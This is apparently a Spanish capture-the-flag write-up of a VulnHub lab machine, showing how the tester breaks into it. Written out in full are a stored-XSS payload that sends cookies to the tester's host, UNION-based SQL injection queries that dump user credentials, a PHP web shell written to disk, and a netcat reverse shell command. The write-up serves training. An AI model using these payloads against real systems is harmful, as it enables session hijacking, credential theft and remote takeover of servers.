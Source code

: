 ```yaml
---
layout: post
title: XSS and MySQL file - VulnHub
tags: [xss,sql]
subtitle: "XSS and MySQL file - VulnHub"
---
```


- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web-80)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso-www---data)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web 80

![web](../assets/imgs/xss_mysql/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
| <img\>            | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookies='+document.cookie+'">')</script>
```

![xss](../assets/imgs/xss_mysql/xss.png)

Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.

![python](../assets/imgs/xss_mysql/python.png)

Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox

![admin](../assets/imgs/xss_mysql/admin.png)

----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`

![sql](../assets/imgs/xss_mysql/sql.png)

#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```

![union](../assets/imgs/xss_mysql/union.png)

#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```

![mysql](../assets/imgs/xss_mysql/mysql.png)

#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```

![administrator](../assets/imgs/xss_mysql/administrator.png)


Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.

![hash](../assets/imgs/xss_mysql/hash.png)

```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar

![www](../assets/imgs/xss_mysql/www.png)


#### Shell Inverso www-data

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.

![nc](../assets/imgs/xss_mysql/nc.png)




<!--![cron](../assets/imgs/xss_mysql/cron.png)-->
